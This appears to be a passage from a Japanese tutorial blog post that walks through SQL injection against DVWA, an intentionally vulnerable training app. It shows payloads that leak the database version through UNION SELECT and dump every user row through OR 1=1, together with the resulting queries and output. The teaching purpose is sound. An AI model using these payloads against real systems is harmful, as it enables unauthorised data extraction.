 DVWAのSecurityレベルをLowに設定し、左メニューの「SQL Injection」へ移動します。
入力欄に「1」を入れると以下のように表示されます。

![スクリーンショット 2025-05-11 18.34.48.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/ac2510ed-ede9-4923-bbae-184c5c718723.png)


それでは、SQLインジェクションを試してみます。

#### 攻撃パターン1️⃣ - DBエンジンやバージョンを取得する

```
' union select version(), null #
```
上記の値を入力欄に入力してSubmitを押下すると以下のようなクエリが発生します。
```
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = '' union select version(), null ;
+--------------------------+-----------+
| first_name               | last_name |
+--------------------------+-----------+
| 10.11.11-MariaDB-ubu2204 | NULL      |
+--------------------------+-----------+
1 row in set (0.002 sec)
```

そして結果はDBのバージョンが返され、画面上からエンジンとバージョンが見えてしまいます。

![スクリーンショット 2025-05-11 18.34.15.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/c906411f-6a32-472f-9ff9-cbac0758a046.png)

ここでのポイント
| ポイント | 意味 |
|-|-|
| `''` | idが空文字列 |
| `union select version(), null`     | 別のSELECT結果を合体させる（UNION） |
| `#` | 残りをコメントアウト（無視させる） |

つまり本来は、usersテーブルをSELECTするはずだったのにversion()（データベースのバージョン情報を返す関数）を無理やり実行したような感じです。

---

#### 攻撃パターン2️⃣ - 全ユーザの一覧を抜く

```
' OR 1=1 #
```
と入力してSubmitを押下してみて下さい。これで生成されるSQLは以下のようになります。
```
MariaDB [dvwa]> SELECT first_name, last_name FROM users WHERE user_id = '' OR 1=1;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| Gordon     | Brown     |
| Hack       | Me        |
| Pablo      | Picasso   |
| Bob        | Smith     |
+------------+-----------+
5 rows in set (0.000 sec)
```
